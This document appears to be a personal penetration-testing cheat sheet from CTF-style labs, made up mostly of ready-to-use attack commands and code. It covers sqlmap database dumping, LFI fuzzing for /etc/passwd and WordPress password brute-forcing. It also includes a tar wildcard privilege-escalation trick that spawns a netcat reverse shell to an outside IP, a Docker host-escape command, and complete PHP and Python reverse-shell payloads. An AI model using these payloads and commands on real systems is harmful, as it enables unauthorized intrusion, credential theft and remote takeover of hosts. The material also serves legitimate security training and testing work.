 # hacking_notes

## Recon

### Scanning ports
```powershell
sudo nmap -A -o scan_agsv.txt 10.10.10.218
sudo nmap -sS -p- -o scan_full.txt 10.10.10.218
```
### Fuzzing subdomains
```powershell
wfuzz -w subdomains-top1million-5000.txt -H "Host: FUZZ.vulnnet.thm" --hc 200 10.10.236.248
```

### sqlmap
```powershell
sqlmap -r ./test_user --dbms=MySQL --technique=U --delay=3
sqlmap -r ./test_user --dbms=MySQL --current-db
sqlmap -r ./test_user --dbms=MySQL -D marketplace --dump
```


### LFI
```powershell
python ./panoptic.py --url http://vulnnet.thm/\?referer\=test
```

### Fuzzing for command executions via LFI 
```powershell
wfuzz -w SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=id\;whoami\|\|ls
wfuzz --hh 5829 -w ~/Documents/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=/etc/passwd
```

### Fuzzing dir
```powershell
gobuster -u http://broadcast.vulnnet.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster -u http://10.10.236.248 -w SecLists-master/Discovery/Web-Content/common.txt
```

### Wordpress
```powershell
wpscan --url http://10.10.255.124/blog --enumerate u
wpscan --url http://10.10.74.136/ --passwords /usr/share/wordlists/rockyou.txt --usernames user1,user2
```


## Cracking

### Crack ssh passphrase
```powershell
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## Priv Esc

### tar wildcards
```powershell
cd target_dir
echo "mkfifo /tmp/bggenux; nc 10.9.4.192 4444 0</tmp/bggenux | /bin/sh >/tmp/bggenux 2>&1; rm /tmp/bggenux" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```
* [https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
* [https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)


### Docker
```powershell
docker run -it -v /:/host/ <docker image> chroot /host/ bash
```
* [https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)


## Payloads

### PHP Reverse Shell

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

### Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Misc

### Start local server
```powershell
python -m SimpleHTTPServer
```

### Get tty in shell
```powershell
python3 -c'import pty;pty.spawn("/bin/bash")'
```

## TODO

[*] ftp
[*] hydra
[*] http bruteforce
[*] one line reverse shell
[*] check linux exploit
[*] smb (nmap script enum)
[*] john
